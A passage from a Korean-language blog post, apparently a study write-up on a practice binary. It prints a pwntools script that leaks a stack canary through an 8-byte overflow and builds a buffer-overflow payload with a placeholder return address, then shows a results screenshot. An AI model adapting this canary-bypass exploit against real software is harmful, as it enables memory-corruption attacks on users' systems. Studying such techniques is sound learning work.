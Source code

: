 ## 4.3. 익스플로잇 실행

<br>

내가 작성한 익스플로잇은 아래와 같았다.

```python
from pwn import *

p = process("./bypass_canary")

# 1. 9 byte input
p.sendline('AAAAAAAA')

# 2. get 7 bytes(least significant) from output and insert Null byte in front of it

p.recvuntil('hello AAAAAAAA\n')
temp=bytearray(7)
temp = p.recv(7)
zero=bytearray(1)
canary = zero+temp

# 3. give the payload which I want
dump = b'A'*0x10
canary
rbp_dump = b'A'*0x08
ret_addr = p64(0xDEADBEEFCAFECAFE)

payload = dump+canary+rbp_dump+ret_addr

gdb.attach(p)
raw_input("1")

p.sendline(payload)

p.interactive()
```

<br>

해당 익스플로잇을 실행한 결과는 아래와 같았다.

![Untitled](/assets/img/posts/sys6/Untitled%2023.jpeg){: width="100%" height="100%"}
